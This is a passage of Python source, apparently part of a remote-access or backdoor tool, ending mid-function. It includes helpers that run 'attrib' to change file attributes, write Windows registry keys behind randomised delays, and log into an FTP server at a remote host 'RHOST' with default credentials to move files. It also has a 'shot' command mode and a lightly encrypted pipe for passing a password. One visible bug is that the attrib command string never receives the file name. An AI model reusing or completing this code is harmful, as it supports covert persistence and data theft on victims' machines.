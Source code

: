 ```python
def unhide_file(file):
    run_cmd("attrib -h -r -s ".format(file), False)


def registry(owner, path, name, value, value_type):
    key = winreg.CreateKey(owner, path)
    time.sleep(uniform(5, 20))
    winreg.SetValueEx(key, name, 0, value_type, value)
    time.sleep(uniform(5, 10))
    winreg.CloseKey(key)


def create_link(p1, p2):
    os.link(p1, p2)


def remove_link(p1):
    os.unlink(p1)


def file_ready():
    open(pipe_out + ".ready", "w+").write('0')


def waiting_file():
    while open(pipe_out + ".ready", "r").read() != '1':
        time.sleep(0.5)


def init_ftp(username, password, directory):
    if password is None:
        aff = Affine()
        open(pipe_out, "w").write(aff.encrypt("Pass?\n"))
        file_ready()

        waiting_file()
        password = aff.decrypt(str(open(pipe_out, "r").read().rstrip()))

    ftp = FTP(RHOST)
    ftp.login(username, password)
    ftp.cwd(directory)
    return ftp


def ftp_arg_parse(com, source):
    ap = ArgumentParser(source)
    if source != "shot":
        ap.add_argument("-f", action="store", required=True, type=str)
    ap.add_argument("-u", action="store", type=str, default="smile")
    ap.add_argument("-p", action="store", type=str, default=None)
    ap.add_argument("-d", action="store", type=str, default="files")
    args = vars(ap.parse_args(com))
    return args


def download_file(ftp, resp, file):
    with open(file, 'rb') as fp:
        resp += "{}: ".format(file)
        try:
            rest_pos = ftp.size(file)
        except:
            rest_pos = 0
        fp.seek(rest_pos, 0)
```